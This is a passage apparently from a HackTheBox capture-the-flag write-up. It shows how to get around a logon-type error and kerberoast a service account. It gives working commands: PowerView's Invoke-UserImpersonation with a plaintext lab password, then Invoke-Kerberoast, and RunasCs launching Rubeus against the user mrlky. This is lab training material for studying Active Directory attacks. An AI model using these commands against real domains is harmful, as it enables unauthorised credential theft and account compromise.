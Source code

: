 ![image40](../resources/ccb7b2a2df8444ff8e737bff062aa5c0.png)

But this gives an error - To do with the Logon type


![image41](../resources/4ecbc8dc699d4b269dc37409c1063c64.png)

- **<u>To fix this we can either:</u>**

  - Upload Powerview and use Invoke-UserImpersonation:

```powershell
$Password = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $Password)
Invoke-UserImpersonation -Credential $Cred
Invoke-Kerberoast
```

- Or use RunasCs:

```bash
.\RunasCs.exe amanda -d htb.local Ashare1972 -l 2 "C:\Windows\System32\spool\drivers\color\Rubeus.exe kerberoast /user:mrlky /nowrap"

```
